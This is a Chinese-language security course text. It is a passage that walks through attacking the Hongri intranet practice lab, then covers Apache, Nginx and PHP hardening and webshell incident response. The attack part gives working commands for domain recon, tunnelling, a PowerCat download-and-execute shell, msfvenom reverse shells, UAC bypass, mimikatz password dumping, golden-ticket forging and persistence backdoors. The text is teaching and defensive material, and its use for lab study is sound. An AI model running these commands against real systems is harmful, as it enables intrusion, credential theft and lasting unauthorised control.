国内的红日安全团队曾提供内网渗透实战靶场的下载（大小共 13 G），你可以 从百度网盘上下载，如果自己从头搭建测试环境的话，配置流程相当麻烦。
链接：https://pan.baidu.com/s/1qzpnP7vHRp8AGe5wb3QjZw?pwd=9m9w 提取码：9m9w
系统登录密码：hongrisec@2019，登录后可能会要求你更改密码
如靶场的内网拓扑结构图所示，共涉及 3 台虚拟机。
图 1 靶场的内网拓扑结构图
这 3 台虚拟机分别如下。
VM1：Windows 7 x64，开放 Web 服务的服务器
VM2：Win2K3 Metasploitable，内网机器
VM3：Windows Server 2008 R2 x64，内网机器，域控服务器（关于域控的介绍 见下文）
图 2 内网靶场虚拟机
靶场练习的攻击目的就是在攻破 VM1 拿到 webshell 之后，继续向内网的 VM2 和VM3 机器进行渗透，最终拿到域控服务器的最高权限。
内网基础知识
内网渗透 很多时候是针对域的渗透 ，常见于 Windows系统，所以下面重点介绍下
内网中 Windows 系统中常见的一些概念，以便后续介绍内网渗透技术时容易理解。
1.域
域（Domain）是将网络中的多台计算机通过逻辑的方式组织到一起，进行集中管 理的环境。用户以合法身份登录域后，就可以访问域内的资源，默认另一个域中 的用户无法访问另一个域中的资源。
举例个应用场景：公司内有 1000 台计算机，需要在每台计算机上创建一个叫 lagou的统一用户，按传统方法就是一台台去建号并设置密码，一旦要改密码又 要一台台去修改。
如果通过域来统一管理就方便多了，在域中通过活动目录（域中提供目录服务的 组件，可用于存储网络对象，比如账号、计算机、共享资源、打印机和联系人等 信息）创建lagou 账号就可在 1000 台计算机任意一台中登录，更改密码也同样 适用。
通过查看计算机属性可获取一些域信息：
图 3 计算机属性信息
但是在实际渗透过程中，我们常常会使用一些命令，比如下面这些方法。
通过 ipconfig 命令可以判断当前服务器是否存在域，如下图中显示的 god.org 就是其所处的域：
ipconfig /all
图 4 通过 ipconfig 命令判断是否存在域
如果存在域中，还可以使用以下命令查看指定用户的详细信息：
net user xxx /domain
图 5 查看域用户信息
如果你想查看域内有哪些机器，还可通过执行以下命令实现：
# 查询域名
net view /domain
# 查询域内所有计算机
net view /domain:{域名}
图 6 查询域内所有计算机
如果你想查询域内所有用户组列表，可以使用以下命令：
net group /domain
图 7 查询域内所有用户组列表
上面介绍几条命令主要用于获取域内常用信息时使用的，可以帮助我们进一步渗透时收集信用使用。
2.域控制器
域控制器是域中拥有管理域内其他主机的计算机，它负责所有本域内的计算和用 户的验证工作，它是整个域的通信枢纽，域内所有用来验证身份的账号和密码哈 希都存在域控制器中。所以，内网渗透的最终目标常常就是为了攻下域控服务器， 这样就等同于控制整个域内的计算机。
通过 nltest 命令可以查看域控制器的机器名，下图显示的域控制器机器名为 OWA。
nltest /DCLIST:{域名}
图 8 查看域控制器的机器名
然后通过前面介绍的 ipconfig/all 来查看当前主机的机器名是否为域控制器。
有时一个域内会存在两台或两台以上的域控制器，我们可以通过以下命令来查看 域控制器组内的所有域控制器的主机名：
net group "Domain Controllers" /domain
图 9 查看所有域控制器的主机名
查看域管理员，下图显示是 Administrator：
net group "domain admins" /domain
图 10 查看域管理员
所以这台叫 OWA 机器名的域控制器就是我们内网渗透的攻击目标，正是它上面 登录着域管理员账号，也是为了方便后面我们从域控中导出域管理员的密码。
那这台机器对应的 IP 是什么呢？有两种常用方法。
- 查询 DNS 服务器，因为它与域控制器常常在同一台服务器上。
nslookup {域名}
图 11 查询 DNS 服务器
- 扫描内网主机，寻找对应机器名的IP，比如用nbtscan工具，它就是利用 NetBIOS协议去进行机器名查询解析应答的过程以探测内网主机。
图 12 利用 nbtscan 扫描内网主机
基于上述方法的输出结果，我们可以知道域控制器 IP 为 192.168.52.138。
3.域关系
一台台计算机组成一个域，称为单域。
出于管理或其他需求，可能将一个域分成多个域来管理，就像公司分成几个部分 一样，那么公司层面的域称为父域，部门层面的域称为子域。
父子域与域名中的一级域名、二级域名的概念类似，比如 test.baidu.com 是 baidu.com 的二级域，父域是 baidu.com，子域是 test.baidu.com。
这些父子域称成了域树，一个个域树建立起来的组合称为域森林，简单域林。
图 13 域关系图
内网信息收集
前面已经介绍一些获取域信息的常见命令，包含如何判断是否存在域、域名查询、 用户名查询、定位域控制器等方法，因此这些内容不再赘述。
下面介绍两款比较自动化获取内网信息的工具：Empire 和BloodHound。除此之 外还有其他工具，比如Metasploit、PowerView、Seatbelt、WMIC等等，你可以 在后面自行搜索相关工具和资料继续扩展学习。
1.Empire 后渗透利器
这里推荐一款叫 Empire 的内网渗透利器来自动收集内网信息。你可以先用 Empire 生成后门，然后上传到目标机器上执行，如果你已经拿到 webshell，那 可以先把后门可执行文件放置在外网服务器上，再用 webshell 下载执行。若是 纯内网机器，那就通过外网 Web服务器下载好后，再传给内网机器。
下面介绍一些常用的功能模块和使用命令：
＃收集主机信息，包括本机用户、域组成员、系统基本信息、共享信息等等 > usemodule situational_awareness/host/winenum > execute ＃探测内网存活机器 > usemodule situational_awareness/network/arpscan > set Range 192.168.52.0-192.168.52.255 > execute ＃搜索域管理员登录的机器 > usemodule situational_awareness/network/powerview/user_hunter > execute ＃获取主机账号和密码 > mimikatz > creds
由于篇幅所限，没法把 Empire的方方面面都介绍一遍，否则这一篇文章也写不 完，还是推荐你看下《后渗透测试神器Empire的详解》这篇文章，以及官方WiKi 文档。
2.BloodHound 域分析工具
BlooadHound 是一款自动化分析并提取域信息的免费工具，它通过图与线的形式， 将各类主机、用户、组、会话等信息之间的关系可视化地展示出来。
图 14 Bloodhound
该工具最有用也是最常用的一个功能就是提供攻击域控的最短路径，可以帮助我 们更快地攻下域控服务器。

图 15 查找域管理员的最短路径
关于 Bloodhound 的安装和使用，更多信息可参考BloodHound官方使用指南。
通信隧道建设
为进一步的内网渗透，通常会建立一个通信隧道，一方面便于与无法直边的内网 机器交互，一方面为了绕过防火墙端口屏蔽的安全限制。
你可以先用以下命令来判断是否允许访问外网，利用不同协议来判断会更全面一些：
- ping：基于 ICMP 协议
- curl：基于 HTTP 协议
- netcat：基于 TCP 协议
- nslookup：基于 DNS 协议
看哪些通信协议可以出网的，就可以尝试利用它来建立起内网通信隧道，下面介 绍一些常用的通信隧道建设方法。
1.PingTunnel
PingTunnel 是一款基于 ICMP 协议的通信隧道工具。
ICMP经常是被忽略的防火墙忽略的通信协议，所以有时可以通过它绕过防火墙
的限制 ；另外还有一个更大好处是， 通过 PingTunnel 可以间接访问到内网
服务器 。比如攻击者 A 攻下服务器 B，服务器 B跟内网服务器 C 连通，但 A
无法直连C，这时通过建立起 ICMP隧道即可解决此问题。
它的使用方法如下：
先在跳板机（一般取开放 Web 的服务器，即最早被我们拿到 webshell 权限的服务器）上运行以下命令开启后门。
ptunnel -x {连接密码}再在攻击者机器上运行以下命令去连接。
ptunnel -p {跳板机IP} -lp {本地监听端口} -da {目标IP} -dp {目标机器端口} -x {连接密码}
2.lcx 端口转发
lcx 是一款常用的轻便的端口转发工具，它是基于 Socket 实现的，常用于转发 数据到防火墙许可的服务器或端口上，其使用方法如下：
# 将本机端口 111 的通信数据转发到本机端口 222 lcx.exe -listen 111 222 # 将目标机器端口3389的通信数据转发到公网机器端口4444 lcx.exe -slave {公网IP} 4444 127.0.0.1 3389 # 访问本地端口111即访问目标IP的3389端口 lcx.exe -tran 111 {目标IP} 3389
3.PowerCat
PowerCat 是 netcat 的 PowerShell 版本，它允许本地执行，也可远程执行。常 用的远程执行命令如下，下载 PowerShell 脚本进行执行，它会在本地监听 8000 端口，并关联 cmd：
powershell “IEX (New-Object System.Net.Webclient).DownloadString(‘https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -l -p 8000 -e cmd”
然后攻击者主动连接 8000 端口，即可获取 shell 权限。
4.SSH
几乎所有的 Linux/Unix 服务器都会支持 SSH 协议，在针对此类操作系统的攻 击时就可以派上用场，用它来做代理和转发。
常用命令如下：
# 通过跳板机访问目标IP ssh -CNfg -L 2121:{目标IP}:21 root@{跳板机IP} # 访问攻击者IP的2121端口，即是访问目标IP ssh -CNfg -R 2121:BIP:{目标IP} root@{攻击者IP}
5.EarthWorm
EarthWorm 是一款用于开启 SOCKS v5代理服务的工具，基于标准 C开发，可提 供多平台间的转接通信，用于复杂网络环境下的数据转发。
它的常用命令如下：
# 在目标机器中开启SOCKS代理 ew -s ssocksd -l 888 # 在跳板机上执行如下命令实现数据透传到目标机器上，即将1080端口数据转发到目标IP的888端口上 ew -s lcx_tran -l 1080 -f {目标机器IP} -g 888
权限提升
有时我们利用 Web漏洞拿到的系统权限是有限制的，为了获取更高的权限，我们 就常常使用一些提权的利用方法来实现，下面介绍几种在Windows 平台下比较常 用的提权方法。
补充：为方便本地虚拟机与主机互联测试，我修改了原靶场虚拟机的 IP 地址，将192.168.52.xx 都更改为 192.168.69.xx。
1.利用系统/软件漏洞提权
操作系统本身也有一些漏洞，特别是内核漏洞，常常用来帮助攻击者拿到更高的 权限。还有一些拥有驱动程序的软件，比如杀毒软件，这些软件的权限都比较高， 如果存在漏洞被利用，也可用于提权。
下面以靶场为例来实践练习下，先在攻击者本地开启监听端口，以等待后门回连：
msf5 > use exploit/multi/handler msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp PAYLOAD => windows/meterpreter/reverse_tcp msf5 exploit(multi/handler) > set LHOST 192.168.69.1 ＃攻击者IP LHOST => 192.168.69.1 msf5 exploit(multi/handler) > set LPORT 4444 LPORT => 4444 msf5 exploit(multi/handler) > exploit [*] Started reverse TCP handler on 192.168.69.1:4444
然后生成回连后门程序 shell.exe，上传到目标服务器（已获得 webshell 的服务器）并运行：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.133 LPORT=443 -f exe -o shell.exe
利用成功后获得系统 shell 权限：
msf5 exploit(multi/handler) > exploit [*] Started reverse TCP handler on 192.168.69.1:4444 [*] Sending stage (176195 bytes) to 192.168.69.143 [*] Meterpreter session 1 opened (192.168.69.1:4444 -> 192.168.69.143:32552) at 2021-01-24 20:55:13 +080 meterpreter > shell Process 2364 created. Channel 1 created. Microsoft Windows [�汾 6.1.7601] ��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ���� C:\Users\Administrator\Desktop>whoami whoami god\administrator C:\Users\Administrator\Desktop>exit exit meterpreter > getuid Server username: GOD\Administrator meterpreter > background [*] Backgrounding session 1...
利用 post/multi/recon/local_exploit_suggester 模块去获取系统的未修复的漏洞，同时 metasploit 还有对应利用模块的漏洞：
msf5 post(windows/gather/enum_patches) > use post/multi/recon/local_exploit_suggester msf5 post(multi/recon/local_exploit_suggester) > set session 1 session => 1 msf5 post(multi/recon/local_exploit_suggester) > exploit
图 16 利用 local_exploit_suggester 获取未修复且可利用的漏洞
根据上述信息可以知道，系统上还是不少漏洞可直接利用的，你可以挑选内核漏洞去利用。
不过这里还有个更简单的方法，就是利用 getsystem 命令去获取 SYSTEM 权限，如下图所示。
图 17 利用 getsystem 提权
2.绕过 UAC
即使是 Administrator 权限，有时在执行程序时会失败，相信你对下图的弹框 不会陌生。这就是UAC（用户账户控制），其原理是通知用户是否对应用程序使 用硬盘驱动器和系统文件授权，以达到帮助阻止恶意程序损坏系统的效果。
图 18 UAC 导致的弹框
关于绕过 UAC 的原理，我们此处展开讨论，这里推荐几个 Metasploit 自带的利用模块来绕过 UAC：
use exploit/windows/local/bypassuac use exploit/windows/local/bypassuac_injection use windows/local/bypassuac_vbs use windows/local/ask
你是不是发现 Metasploit功能很强大？它什么功能都有，后面的利用，我们还 会继续使用到它。
3.令牌窃取
令牌是系统中的临时分配的认证凭证，等同于账号、密码，决定是否允许当前请 求及其所属用户。也就是说，获得令牌后，用户可以在不提供密码的情况下访问 网络和系统资源。如果被攻击者窃取到，就等同于窃取了他人账号。
在 Metasploit 中可使用 incognito 去罗列当前系统中的有效 Token并进行复 制伪造，如下图所示，假冒“NT AUTHORITY\SYSTEM”令牌成功获取系统管理员 权限。
图 19 令牌窃取
横向移动渗透
为了扩大攻击成果，攻击者通常会利用已被攻破的系统作为跳板，去访问域内的 其他主机，试图获得更多主机的控制权，下面介绍一些常用的横向移动渗透手段。
1.抓取密码
在 Windows 上抓取密码的工具，最著名的当属 mimikatz，在 Metasploit 中也有集成，直接通过 load mimikatz 命令即可加载使用。
meterpreter > load mimikatz
Loading extension mimikatz...[!] Loaded x86 Mimikatz on an x64 architecture.
[!] Loaded Mimikatz on a newer OS (Windows 7 (6.1 Build 7601, Service Pack 1).). Did you mean to 'load kiwi' instead?
Success.
meterpreter > help
...
Mimikatz Commands
=================
Command Description
------- -----------
kerberos Attempt to retrieve kerberos creds
livessp Attempt to retrieve livessp creds
mimikatz_command Run a custom command
msv Attempt to retrieve msv creds (hashes)
ssp Attempt to retrieve ssp creds
tspkg Attempt to retrieve tspkg creds
wdigest Attempt to retrieve wdigest creds
meterpreter > wdigest
由于 Metasploit 默认加载的是 32 位的 Mimikatz 程序，在 x64机器上运行会 导致 wdigest 读取密码失败了，只能获取密码哈希。
图 20 获取密码哈希
这种情况下，只能自己上传 64 位的 mimikatz程序去获取明文密码，可以从官 方下载，运行mimikatz 后通过以下两条命令，即可实现明文密码的获取：
# 提升权限 privilege::debug # 搜索明文密码 sekurlsa::logonpasswords
图 21 获取系统的账号与密码
除了 Mimikatz 外，还可以利用 hashdump 可导出当前机器的密码 Hash：
图 22 利用 hashdump 可导出当前机器的密码 Hash
利用 smart_hashdump 还可以获取域内用户的密码 Hash，但需要 system 权限：
图 23 利用 smart_hashdump 导出域内用户的密码 Hash
如果只有 hash，那就需要结合 hashcat 来破解出明文密码，有时也可采用哈希 传递攻击的方式去利用，即利用域内一些账号密码相同的情况，直接将密码哈希 传递给其他计算机去尝试登录的攻击方式，可以不必花时间破解密码明文， Mimikatz 就支持哈希传递攻击。
前面我们已经知道这里 Administrator 是域管理员，并且刚刚已经获取到密码 是hongrisec@2019，那么接下来我们就可以尝试拿下更多的内网机器，进一步横 向移动渗透。
2.账号密码连接
前面已经拿到域管理员的账号、密码，就可以尝试去登录下域内的其他主机，下 面我们尝试去登录下域控主机192.168.69.138。登录方式有很多，常用的是下面 几种：
- 3389 登录
先扫描端口，看目标是否打开 3389，然后用远程桌面连接工具 mstsc.exe去登 录，下图是域控主机的端口扫描结果，发现没有开 3389，就先放弃。
图 24 扫描端口
图 25 远程桌面连接
- IPC
IPC（Internet Process Connection），进程间连接，它是为了实现进程间通信 而开放的命名管道。使用IPC 连接要求对方开启 139、445端口才行，同时对方 开启了默认共享，这样我们才能访问到共享目录的内容。IPC连接命令格式如下：
net use \\{目标IP}\ipc\$ "{密码}" /user:{用户名}
下面是使用示例，由于虚拟机要求更改密码才能使用域，因此我把原密码改为“lagou@2019”了。
图 26 IPC 连接
- PsExec
PsExec是 SysInternals套件中的工具，用于命令行下与目标主机连接和控制， 其命令格式如下：
psexec \\{目标IP} -u {用户名} -p {密码} cmd.exe
metasploit 就自带有 psexec 模块，用它可直接连接登录主机。
图 27 利用 Metasploit psexec 登录主机
- WMI
WMI（Windows Management Instrumentation，Windows管理规范）是由一系列工 具组成的，支持本地和远程管理计算机系统，使用命令格式如下：
wmic /node:{目标IP} /user:{用户名} /password:{密码} process call create "{命令}"
图 28 使用 WMI 远程执行命令
3.远程漏洞攻击
如果能找到一个其他主机存在的远程漏洞，借助已攻破的主机发起利用，那么也 可以达到横向移动的目的。还记得“永恒之蓝”漏洞吗？一款叫作 WannaCry 的 勒索病毒袭击全球，其利用的正是“永恒之蓝”（Windows SMB远程命令执行漏 洞），Metasploit 中已集成该漏洞的利用。
你可以多关注下最新的一些远程漏洞，有时直接利用远程漏洞获得域内其他主机的控制权也是一种快捷的方式。
4.跨域攻击
对于父子域这种双向信息的情况，我们可以利用 SID History 进行跨域攻击， 使用命令如下。
- 使用 mimikatz 获取子域的 krbtgt Hash，krbtgt 是域内默认创建的账号， 域内每个账号的票据都是由它生成的，只要拿到 krbtgt 的密码 Hash，就可 以随意伪造票据，进而使用票据登录域控制器。
lsadump::lsa /patch
- 使用 powerview 获取父子域的 sid：
Get-DomainComputer -Domain {父域名}
Get-DomainComputer -Domain {子域名}
- 利用 mimikatzt 向内存注入票据，添加 SID＝519 企业管理员。
kerberos::golden /user:Administrator /krbtgt:{第一步获取的hash} /domain:{域名} /sid:{子域sid} /sids:{替换父域sid最后一个值为519} /ptt
- 访问父域的共享目录
dir \\{父域名}\c$
权限维持
有时服务器被重启，或者修改密码之后，我们就失去了对目标的控制权，因此我 们得想办法去维持权限的持久性，保证我们在需要的时候都能够远程控制。
1.WebShell
如果是 Webshell，那服务器重启后也没影响。关于Webshell，前面课程已介绍 过，此处不再赘述。
2.系统后门
前面我们使用 metasploit 利用漏洞去获取 meterpreter 后门也是一种方式， 你可以把后门添加到自启动项，保证重启后仍有效，这种比较适合开启监听后门， 因为有时候我们没有一直在本地开启监听去等待对方连接。
粘滞键后门是最常用的后门留取方式，粘滞键是指连续按 5 次 Shift键而触发 的，它执行的是 windows\system32\sethc.exe 程序，我们用后门程序替换掉就 可以。
图 29 粘滞键
除此之外，你还可以使用注册表、计划任务等方式来留取后门。
3.域控维权
在拿到域控后，攻击者会对现有的权限进行持久化操作，以保证长期有效地控制 它，常用的方法有以下两种。
- DSRM
DSRM，目录服务恢复模式是 Windows 域控制器的安全模块启动项，你可以通过 它为域控制器设置一个本地管理员账户，然后同步其他账号的密码为 DSRM 密码， 再修改注册表的 DrmAdminLogonBehavior 为 2，即允许使用 DSRM 管理员账号 登录域控制器：
# 同步DSRM密码 ntdsutil set DSRM password SYNC FROM DOMAIN ACCOUNT username Q Q # 修改注册表配置： reg add “ HKLM\System\CurrentControlSet\Control\Lsa” /v DSRMAdminLogonBehavior /t REG_DWORD /d 2
之后就可以用 mimikatz 去连接：
sekurlsa::pth /domain:computername /user:Administrator /ntlm:{密码hash}
- Skeleton Key
Mimikatz 支持安装万能密码，通过以下命令即可将“mimikatz”作为万能密码去连接域控，哪怕域控密码被修改也可使用。
privilege::debug misc::skeleton
除此之外，还可以利用 mimikatz 的 mimilib.dll 去记录重启后登录的密码， 还有用户 SID History 属性等方式，都可以利用 Mimikatz 工具来实现，它在 权限持久化方面提供了不少实用的功能。
构建防线：服务器安全加固
关于“模块二漏洞攻防案例”的内容我们已经讲完了，从本节课开始，将进入 “模块三 Web安全建设”内容，我将给你介绍企业内部的一些 Web安全建设工作， 如何更加全面地防御 Web 漏洞的攻击。
本节课主要向你介绍一些服务器安全加固的策略，以主流的 Apache 和 Nginx 服务器为例，有时即使存在漏洞，有安全加固策略存在，可以提高对方的攻击成 本，防止被进一步攻击。PHP 本身也提供有一些安全配置功能可用于安全加固， 本节课会一并介绍。
Apache 服务器加固
Apache 是世界使用排名第一的 Web服务器软件，由于其跨平台和安全性而被广 泛使用，我们前面课程介绍过的靶场很多就使用到Apache。
下面梳理下 Apache 上的安全配置建议，以帮助对服务器进行安全加固。
1.删除默认页面
Apache安装后会有如下图所示的默认页面，安装后仅用于测试，用于生产环境中 时需要删除，这里需要删除 icons 和 manual 两个目录文件，以避免不必要的 信息泄露。
图 1 Apache 默认页面
2.关闭目录浏览功能
Apache默认允许目录浏览，如果目录下找不到可浏览器的页面，就会出现目录浏 览问题，造成信息泄露。
图 2 在线浏览目录
Ubuntu 是通过修改 Apache 配置文件/etc/apache2/apache2.conf，其他平台大 多是叫 httpd.conf的配置文件名，修改“Indexes”为“－Indexes”：
图 3 关闭目录浏览
3.开启访问日志
在浏览器被攻击时，通过日志可以帮助回溯整个安全事件的过程，有助于定位漏 洞成因和攻击者。默认情况下，Apache已开启访问日志记录，你需要确认下配置 文件是否开启 CustomLog 的日志路径设置：
/etc/apache2/sites-available/default-ssl.conf /etc/apache2/sites-available/000-default.conf
图 4 开启访问日志
图 5 访问日志文件
上面是 Ubuntu 平台的情况，如果是存在 httpd.conf配置文件的其他平台，则 直接在 httpd.conf 查看是否有 CustomLog 配置。
4.禁止特定目录解析 PHP
对于不需要执行 PHP 脚本的目录，可禁止 PHP解析，这种配置可有效防止上传 漏洞的攻击，特别是上传目录的 PHP 解析限制。
通过 Apache 配置文件中对目录权限做如下修改，以禁止特定目录解析 PHP：
<Directory "/www/html/uploads"> php_flag engine off </Directory>
5.不以 Root 启动 Apache
默认情况下，Apache 已禁止 Root 启动，你可以在 Apache 配置文件中再确认下 User 与 Group 的配置值。
下面是 apache2.conf 为配置文件时的情况，它通过 /etc/apache2/envars 指 定变量名来设置 User 和 Group：
# /etc/apache2/apache2.conf User ${APACHE_RUN_USER} Group ${APACHE_RUN_GROUP} # /etc/apache2/envars export APACHE_RUN_USER=www-data export APACHE_RUN_GROUP=www-data
如果是 httpd.conf，一般就直接用 User 与 Group 来指定用户名和用户组：
User apache Group apache
6.禁止访问外部文件
当网站存在目录遍历漏洞时，攻击者可能通过 ../ 来访问系统上的任意目录， 通过禁止 Apache 访问网站目录以外的目录和文件，可以有效地降低这种攻击带 来的危害。
修改 Apache 配置文件，先禁止所有目录的访问，然后再开启可访问的目录。
# 先禁止任何目录访问
Order Deny,Allow
Deny from all
# 设置可访问的目录
Order Allow,Deny
Allow from {网站根目录}
7.错误页面重定向
Apache 错误页面重定向功能可以防止敏感信息泄露，比如网站路径等信息。
修改 Apache 配置文件，指定不同响应号的返回页面文件：
ErrorDocument 400 /custom400.html ErrorDocument 401 /custom401.html ErrorDocument 403 /custom403.html ErrorDocument 404 /custom404.html ErrorDocument 405 /custom405.html ErrorDocument 500 /custom500.html
Nginx 服务器加固
Nginx 是一款著名且免费的网页服务器软件，在世界范围内应用非常广泛。Nginx 配置文件通常位于 /usr/local/etc/nginx/nginx.conf，如果没找到，你可以通过命令 locate nginx.conf 来搜索。
$ locate nginx.conf /usr/local/etc/nginx/nginx.conf /usr/local/etc/nginx/nginx.conf.default ...
各种安全加固方式都可通过 nginx.conf 来完成。
1.关闭目录浏览
Nginx 默认不允许目录浏览，你可以再确认下配置文件中的 autoindex是否配置 为 off，以防止敏感信息泄露。
autoindex off
2.开启访问日志
开启日志有助追踪攻击途径，以及定位攻击者。默认情况下，Nginx会开启访问 日志，你可在配置文件中确认下是否已开启：
access_log /backup/nginx_logs/access.log combined;
3.限制特定目录解析 PHP
在 Apache 已介绍过，对于不需要执行 PHP 脚本的目录，可禁止 PHP 解析，这 种配置可有效防止上传漏洞的攻击，特别是上传目录的 PHP解析限制，通过 nginx.conf 配置文件使用 deny all 来限制特定目录被 PHP解析：
location ~* ^/data/cgisvr/log/.*\.(php|php5)$
{
deny all;
}
4.删除默认页面
Nginx也存在默认页面，上线后应该删除，防止不必要的信息泄露，可通过删除 如下配置信息来解决。
location /doc {
root /usr/share;
autoindex on;
allow 127.0.0.1;
deny all;
}
location /images {
root /usr/share;
autoindex off;
}
图 6 Nginx 默认页面
PHP 安全配置
PHP是比较常用的网站开发语言，其对安全也很重视，提供了不少安全函数和配 置功能。下面介绍一些常用的PHP 安全配置方法，都是通过 php.ini 来配置， 比如 PHP 7.4 的配置文件路径位于 /etc/php/7.4/apache2/php.ini。
1.限制脚本访问权限
PHP 默认配置允许 php 脚本程序访问服务器上的任意文件，为避免 php 脚本访问不该访问的文件，从一定程度上限制了 php 木马的危害，一般设置为只能访问网站的目录：
open_basedir = /usr/local/apache2/htdocs（网站根目录）
2.禁止危险函数
利用 php 的特殊函数可以执行系统命令，查询任意目录，增加修改删除文件等。 php木马程序常见使用的函数为 exec、popen、system、passthru、shell_exec 等，如下设置可禁止使用这些危险函数：
disable_functions = exec,popen,system,passthru,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open
3.关闭错误消息显示
一般 PHP 错误信息可能会包含网站路径或 SQL 查询语句等敏感信息，这些信息 为攻击者提供有价值的信息，因此应该禁止错误显示，配置方式如下：
display_errors = Off
4.禁止访问远程文件
允许访问 URL 远程资源使得 PHP 应用程序的漏洞利用变得更加容易，php 脚本 若存在远程文件包含漏洞可以让攻击者直接获取网站权限及上传 web 木马，因 此建议关闭远程文件访问功能，若需要访问可采用其他方式，比如 libcurl 库， 配置如下:
allow_url_fopen = Off allow_url_include = Off
PHP在这几年提升了不少安全功能，很多功能都默认开启，甚至直接去掉一些原 有一些可配置的安全功能，比如magic_quotes_gpc。
小结
本节课主要分享了 Apache、Nginx 和 PHP 的一些安全配置方案，帮助抵御漏洞 的攻击，提高漏洞利用难度，即使被入侵后，仍有可回溯追踪的办法，这在后续 的入侵排查过程中非常重要，这点在下一节课中介绍，我们下一节课中见。
入侵排查：阻断与追踪黑客
本套课程花了不少篇幅讲解各种常见的 Web漏洞攻防知识，但很多情况下，我们 是无法保证 100% 的绝对安全。
如果你的网站真的被入侵攻击了，那应该怎么办呢？如何将损伤控制到最小？如 何防止被再一次入侵？如何去追踪黑客的攻击来源？
所以，这节课我们就重点聊下如何进行入侵排查去阻断与追踪黑客。
网站被入侵的常见方法是上传 Webshell，这些在《13 |文件上传漏洞：种植服 务器木马的捷径》中都介绍过。因此本节课主要针对利用漏洞入侵后上传 Webshell获取控制权的情况，介绍一些 Webshell入侵应急处理方法，并会结合 前面课程演示过的入侵过程，以实例来讲解入侵排查过程。
这一过程，我们仍然以 Linux 平台为主。
网站入侵检测
想要获取被入侵的情况，除了外部报告、网页被篡改这两种途径，你自己还 需
要建立完善的入侵检测能力 。
毕竟多数情况下， 外部报告是为了获取奖金 ，看看国内外的 SRC平台就知道；
而 网页被篡改通常是为了炫耀 ，这种反而不多，因此攻击者都会以隐藏为
主，以保持对服务器的长期控制。
基于上述情况，如果你想更加主动、及时、全面地感知到网站被入侵，就需要有 一套自己的入侵检测系统，可以自研或者采购，常见的网站入侵检测方法有以下 三种。
基于流量检测
通过收集服务器的网络流量进行数据分析，检测攻击者发送的 payload 攻击 特征，特别是 Webshell 特征进行检测和告警，以便及时发现被入侵情况。
基于文件检测
通过分析文件判断是否为恶意后门，与我们平常的病毒扫描一样，同时排查日 志文件也可以发现入侵过程，有利于回溯整个攻击过程，比如稍后会介绍的河 马检测工具。
基于行为检测
通过动态检测系统上的执行行为来判断是否为恶意行为，是否被入侵攻击。
《08 | SQL 注入：漏洞的检测与防御》已介绍过的 RASP 也是检测入侵攻击 的手段，比如通过 hook java/php底层的命令执行函数，来判断当前是否执行 到命令执行函数，若是，就表明可能已经被外部入侵。
应急处置流程
网站入侵，通常是由于网站漏洞的存在，导致被上传了 Webshell 文件。所以围 绕漏洞，你可以采取以下步骤进行应急处置。
1.关闭外网进行排查
为防止被进一步入侵窃取敏感信息，或者被内网渗透，应该在第一时间关闭外网， 保留现场环境进行排查，等处理完善后再上线。先用 IPConfig 查看公司 IP 所 在的网卡，比如是 eth1，那么就可以使用 ifdown eth1 关闭外网。
2.Webshell 检测、分析与清除
- 检测 Webshell 可以使用一些现成工具，比如 Windows 上的 D 盾、支持 Windows 和 Linux 的河马，还有支持 Linux的长亭云牧，使用都很简单，指 定目录/文件进行扫描即可。
更具体的使用介绍可以参考下文的“常用的排查工具”。
- 通过 分析 Webshell 文件的创建时间，也可以推测出入侵事件发生的时间 段，不过有时候文件创建时间也可能被篡改，注意结合日志信息来综合判断； 接着就是分析 Webshell 的行为，看是否还有其他后门存在，或者一些破坏性 行为。
- 最后 清除 所有后门文件，清除前先留存一份，方便后续分析。
3.Web 日志分析
上一节课《18 | 构建防线：服务器安全加固》中就提到要开启 Web日志，目的 就用于此处。通过分析日志，帮助我们找到漏洞的位置，回溯整个攻击过程，同 时通过定位IP 来追踪黑客。
不同的服务器系统有不同的日志位置：
4. 系统后门与日志排查
攻击者为了实现对服务器的长期控制，通常会在系统上留存后门等恶意程序。
所以在清除 Webshell 后，还应该对系统进行全面排查，比如是否有可疑文件、 进程，进行一次本地病毒的查杀，确保所有恶意程序都被清除干净；否则，即使 你修复漏洞了，攻击者仍可通过后门控制你的服务器，再一次遭遇被入侵的局面。
为方便你使用，我整理了一份常用的排查命令和工具的使用列表。
5. 漏洞分析、复现与修复
通过前面分析 Web 日志来定位漏洞，通过访问 Webshell 的 IP 来收集此 IP 的所有访问记录，根据记录我们可以推测出以下两种情况：
- 比如，访问上传接口后就访问 Webshell，那就有可能存在上传文件漏洞；
- 比如，大批量地尝试登录后台，那可能是在暴力破解密码，可以看攻击者是否 成功访问后台，来判断是否破解成功。
之后就是去尝试 重现 漏洞，以验证前面的推测。若确认漏洞存在，就需要进 行 修复 ，修复后才能上线。
6. 安全加固后上线
可参考《18 |构建防线：服务器安全加固》介绍的服务器加固方法进行安全加固， 此处不再赘述，等加固完成后再上线恢复业务。
常用的排查工具
1.河马
专注于 Webshell查杀研究的工具，采用传统特征与云端大数据双引擎的查杀技 术，支持 Windows与 Linux 平台，跨平台的工具比较方便，使用也简单，通过 指定目录路径即可开启扫描：
hm scan ./Web目录 hm deepscan ./Web目录
2.牧云（CloudWalker）
牧云是由长亭科技开发的一款开源的 Webshell 检测工具，支持 macOS 与Linux 系统，可以输出 Html 检测报告。目前检测结果分为 5个级别（Risk:1~5），如 下图所示，级别越高说明检测出 Webshell的可能性越高，如果没有级别则说明 不存在 Webshell 风险。
该开源工具已停止更新，长亭已经转做企业版收费，不再开源。
牧云使用如下命令扫描指定目录并生成报告：
$ ./webshell-detector -html -output result.html /path/to/web-root/
牧云
3.PHP Malware Finder
PHP Malware Finder 是一款基于 yara 规则检测 Webshell 和恶意软件混淆代 码的工具，在检测一些混淆编码的 Webshell 时比较有效。
使用如下命令来扫描指定目录以检测是否存在恶意的 Webshell：
./phpmalwarefinder [-cfhtv] [-l (php|asp)] <file|folder> yara -r ./php.yar /var/www
4.D 盾
D 盾是 Windows 平台上的 Web 防火墙，但它也支持 Webshell 查杀。目前它仅 支持 Windows，是 Windows 上使用比较广泛的 Web 查杀软件；若Linux 系统也 需要用，可以拷贝文件到 Windows 上进行扫描，或者尝试使用Wine。
D 盾 Web 查杀
5.Lorg：Apache 日志分析工具
